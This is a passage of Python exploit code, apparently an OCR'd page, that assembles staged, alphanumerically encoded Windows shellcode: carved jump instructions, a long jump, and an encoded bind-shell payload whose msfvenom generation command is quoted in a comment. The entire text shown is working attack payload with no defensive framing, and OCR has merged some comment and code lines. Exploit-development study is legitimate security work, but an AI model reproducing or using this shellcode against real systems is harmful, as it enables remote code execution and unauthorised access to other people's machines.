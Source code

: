 ```
stage2 += "\x5C"                           # POP ESP
stage2 += "\x25\x4A\x4D\x4E\x55"           # Zero out EAX
stage2 += "\x25\x35\x32\x31\x2A"           # 
stage2 += "\x2D\x7F\x7F\x7F\x7F"           # Carving \xEB\x80
stage2 += "\x2D\x7F\x7F\x7F\x7F"           # \x90\x90
stage2 += "\x2D\x02\x50\x50\x50"           # 
stage2 += "\x2D\x15\x30\x20\x20"           # 
stage2 += "\x50"                           # PUSH EAX**# 3rd Stage Shellcode (Long JMP)**
stage3 = ""
stage3 += "\x54"                           # PUSH ESP 
stage3 += "\x58"                           # POP EAX
stage3 += "\x2C\x38"                       # ADD AL,0x38 
stage3 += "\x50"                           # PUSH EAX
stage3 += "\x5C"                           # POP ESP
stage3 += "\x54"                           # PUSH ESP
stage3 += "\x5B"                           # POP EBX
stage3 += "\x25\x4A\x4D\x4E\x55"           # Zero out EAX
stage3 += "\x25\x35\x32\x31\x2A"           #
stage3 += "\x2D\x7F\x7F\x7F\x7F"           # Carving \x00\x00
stage3 += "\x2D\x7F\x7F\x7F\x7F"           # \xFF\xD3
stage3 += "\x2D\x02\x01\x02\x2D"           #
stage3 += "\x50"                           # PUSH EAX
stage3 += "\x25\x4A\x4D\x4E\x55"           # Zero out EAX
stage3 += "\x25\x35\x32\x31\x2A"           # 
stage3 += "\x05\x41\x76\x65\x07"           # Carving \x81\xEB
stage3 += "\x05\x40\x75\x54\x06"           # \xB9\x0D
stage3 += "\x50"                           # PUSH EAX**# 4th Stage Shellcode (Bind Shell)**
# msfvenom -p windows/shell_bind_tcp LHOST=127.0.0.1 LPORT=443 BUFFERREGISTER=esp EXITFUNC=thread -f c -b "\x00"stage4 = ""
stage4 += "\x54"                           # PUSH ESP 
stage4 += "\x58"                           # POP EAX
stage4 += "\x2C\x3D"                       # ADD AL,0x38 
stage4 += "\x50"                           # PUSH EAX
stage4 += "\x5C"                           # POP ESP
stage4 += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
stage4 += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
stage4 += "\x05\x33\x23\x50\x50" ## add  eax, 0x50502333
stage4 += "\x05\x44\x23\x40\x40" ## add  eax, 0x40402344
stage4 += "\x50"                 ## push eax
stage4 += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
stage4 += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
stage4 += "\x05\x33\x22\x16\x16" ## add  eax, 0x16162233
stage4 += "\x05\x43\x21\x15\x16" ## add  eax, 0x16152143
stage4 += "\x50"                 ## push eax
stage4 += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
stage4 += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
stage4 += "\x05\x63\x53\x16\x47" ## add  eax, 0x47165363
stage4 += "\x05\x53\x43\x15\x36" ## add  eax, 0x36154353
stage4 += "\x05\x62\x43\x13\x35" ## add  eax, 0x35134362
stage4 += "\x2D\x33\x33\x33\x33" ## sub  eax, 0x33333333
stage4 += "\x50"                 ## push eax
stage4 += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
stage4 += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
stage4 += "\x05\x55\x70\x73\x01" ## add  eax, 0x01737055
stage4 += "\x05\x44\x70\x63\x01" ## add  eax, 0x01637044
stage4 += "\x50"                 ## push eax
stage4 += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
stage4 += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
stage4 += "\x05\x35\x74\x42\x14" ## add  eax, 0x14427435
stage4 += "\x05\x34\x64\x42\x13" ## add  eax, 0x13426434
stage4 += "\x05\x24\x53\x42\x13" ## add  eax, 0x13425324
stage4 += "\x2D\x33\x33\x33\x33" ## sub  eax, 0x33333333
stage4 += "\x50"                 ## push eax
```